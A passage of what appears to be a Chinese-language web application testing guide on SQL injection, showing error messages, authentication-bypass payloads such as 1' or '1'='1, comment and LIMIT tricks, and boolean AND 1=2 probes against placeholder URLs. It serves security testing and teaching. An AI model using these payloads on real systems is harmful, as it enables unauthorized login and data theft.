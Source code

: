 ```

还可以使用注释定界符（-或/* */等）和其他SQL关键字（例如“ AND”和“ OR”）来尝试修改查询。一种非常简单但有时仍然有效的技术是简单地在期望数字的位置插入字符串，因为可能会产生如下错误：
```
Microsoft OLE DB Provider for ODBC Drivers error '80040e07'
[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the
varchar value 'test' to a column of data type int.
/target/target.asp, line 113

```

检查所有来自web服务器的响应，同时查看HTML/JavaScript 源代码。有时错误会藏在这些代码中，但不显露给用户。完整的错误信息会提供给测试人员注入参考信息。但是应用很多时候不会提供太多细节。这意味着我们需要使用盲注技术。在任何情况下，单独测试每个字段是非常重要的，即每一步测试中仅修改一个变量值，这样可以精确的理解某个参数是否存在注入漏洞。

#### 标准SQL 注入测试
##### 经典SQL注入

考虑下列sql查询：```SELECT * FROM Users WHERE Username='$username' AND Password='$password'```

这类查询通常用于认证用户。用户输入通常通过表单进行提交，假设我们插入如下的用户名和密码：
```$username=1' or '1'='1``` 和 ```$password=1' or '1'='1```

查询将为：```SELECT * FROM Users WHERE Username='1' OR '1' = '1' AND Password='1' OR '1' = '1'```

如果我们假设参数值经过GET方法送到服务器，而且问题网站的域名是www.example.com，那么执行的请求如下：```http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1&amp;password=1'%20or%20'1'%20=%20'1```

简单分析可知，查询将返回一个/组值，因为条件总是为True。这样，系统就在不知道用户名和密码的情况下对用户进行了身份验证。
> 不少系统的第一个用户是系统管理员。而在某些情况下，这可能是返回的配置文件。

另一个查询例子：```SELECT * FROM Users WHERE ((Username='$username') AND (Password=MD5('$password')))```

在这种情况下，存在两个问题，一个是由于使用括号引起的，另一个是由于使用MD5哈希函数引起的。首先，我们解决了括号问题。这仅包括添加多个右括号，直到获得正确的查询。为了解决第二个问题，我们试图逃避第二个条件。我们在查询中添加了最后一个符号，这样该符号后的所有内容均视为注释。每个DBMS都有自己的注释语法，但是，大多数数据库的通用符号是星号 *。在Oracle中，符号为--。也就是说，我们将用作用户名和密码的值为：```$username = 1' or '1' = '1'))/*``` 和 ```$password = foo```

这样，我们将获得以下查询：
```SELECT * FROM Users WHERE ((Username='1' or '1' = '1'))/*') AND (Password=MD5('$password')))```

由于在$ username值中包含了注释定界符，因此查询的密码部分将被忽略。

URL请求将为：
```http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1'))/*&amp;password=foo```

这可能会返回许多值。有时身份验证代码会验证返回的记录/结果数是否等于1。在前面的示例中，这种情况将很困难（在数据库中，每个用户只有一个值）。为了解决此问题，插入一个SQL命令就足够了，该命令强加一个条件，即返回结果的数量必须为1。（返回一条记录）为了达到此目标，我们使用运算符```LIMIT <num>```，其中，```<num>```是我们要返回的结果/记录的数量。对于前面的示例，“用户名”和“密码”字段的值将进行如下修改：
```$username = 1' or '1' = '1')) LIMIT 1/*``` 和 ```$password = foo```

这样，我们形成的查询语句如下：

```http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1'))%20LIMIT%201/*&amp;password=foo```

##### SELECT 语句

考虑下列SQL查询：```SELECT * FROM products WHERE id_product=$id_product```

还考虑对执行上述查询的脚本的请求：```http://www.example.com/product.php?id=10```

当测试人员尝试输入有效值（例如，在这种情况下为10）时，应用程序将返回产品说明。测试应用程序在这种情况下是否易受攻击的好方法是使用运算符AND和OR进行逻辑运算。

考虑请求：```http://www.example.com/product.php?id=10 AND 1=2```

```SELECT * FROM products WHERE id_product=10 AND 1=2```

在这种情况下，应用程序可能会返回一些消息，告诉我们没有可用的内容或空白页。然后，测试人员可以发送真实的语句并检查是否存在有效的结果：
```